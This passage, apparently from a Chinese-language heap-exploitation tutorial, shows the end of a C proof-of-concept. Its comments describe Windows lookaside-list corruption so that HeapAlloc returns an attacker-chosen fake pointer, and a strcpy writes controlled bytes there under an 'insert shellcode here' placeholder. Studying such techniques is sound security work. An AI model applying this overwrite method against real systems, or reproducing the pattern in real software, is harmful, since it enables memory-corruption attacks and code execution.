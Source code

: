 ```
        //gets(a);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
        //    __asm__("int $0x3");

        // A second chunk of size N is allocated: our fake pointer is returned
        c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

        // A copy operation from a controlled input to this buffer occurs: these
        // bytes are written to our chosen location
        // insert shellcode here
        strcpy(c,"AAAAAAAAAAAA\n");
        printf(str);
        // set software bp
        //_asm int 0x3;

        exit(0);
 }

```

也许一遍就能跑通，但是一般来说还是像下面一样

![enter image description here](img/img4_u59_png.jpg)
